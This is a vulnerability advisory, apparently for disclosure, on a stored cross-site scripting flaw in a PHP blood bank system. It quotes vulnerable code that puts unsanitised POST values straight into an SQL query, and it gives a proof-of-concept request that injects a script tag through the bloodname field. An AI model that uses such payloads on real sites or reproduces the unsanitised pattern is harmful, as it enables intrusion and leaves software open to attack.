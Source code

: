 # blood-bank-system-in-php via xss

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

# AFFECTED  VERSION(S)

## Vulnerable File

o-.php ，blooddetails.php

## VERSION(S)

-  v1.0

## Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

# PROBLEM TYPE

## Vulnerability Type

XSS vulnerability

## Root Cause

o-.php,blooddetails.php

## Impact

## **Description of the vulnerability**

XSS code can be inserted into the database at the o-php function, and then accessing blood details. php can execute XSS code, causing XSS attacks.

## o-.php

GET the Bloodname parameter and insert it into the database.

```
$Bloodname=$_POST['bloodname'];
$availability=$_POST['Availibility'];
$unit=$_POST['unit'];
$hos=$_POST['hospital'];
$reg="insert into bloodgroup (bloodid, Bloodname, Availibility,unit,hospital) values ('','$Bloodname','$availability','$unit','$hos')";
mysqli_query($con,$reg);
```

## bbms.php	

Retrieve the value of Bloodname and echo the content to the foreground. If blood name is xss code, it will cause code execution.

![image-20240919113541222](https://github.com/user-attachments/assets/433969a7-dc6f-4765-b20e-551fed457f69)



## **Vulnerability recurrence**

### **POC**

Just need to execute the POC and insert the xss code into the database

```
http://bloodbankmgmtsystem/admin/blood/update/o-.php
```

```
bloodname=</td><script>alert("xss2");</script><td>&Availibility=yes&unit=1&hospital=1
```

![image-20240921002639850](https://github.com/user-attachments/assets/7a840b06-4b45-410d-b9d2-9f564c8c7070)

### Result

We can trigger the XSS vulnerability that was just inserted by accessing  blooddetails.php. 

```
http://bloodbankmgmtsystem/blooddetails.php
```

![image-20240921002654301](https://github.com/user-attachments/assets/c8349c75-2734-499e-bdbd-43d0751b3893)